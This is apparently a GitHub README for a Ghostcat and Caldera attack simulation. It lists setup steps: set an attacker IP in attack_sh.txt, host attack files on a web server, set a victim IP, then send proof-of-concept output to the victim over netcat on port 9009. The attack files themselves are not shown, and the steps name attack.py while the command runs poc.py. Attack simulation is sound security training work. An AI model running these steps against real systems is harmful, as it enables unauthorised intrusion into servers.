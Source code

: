 # Cyber Attack Simulation by Ghostcat and Caldera

**1. Clone the repository** 

```bash
git clone https://github.com/jason61306/Cyber-Attack-Simulation-by-Ghostcat-and-Caldera.git
```

**2. Modify attack_sh.txt**

modify $AttackerIP


**3. Upload attack_sh.txt and attack.txt to web** 

**4. Modify attack.py** 

modify $VictimIP

**5. Run attack.py** 

```
$Python3 poc.py | xxd -r -p | nc $VictimIP 9009
```

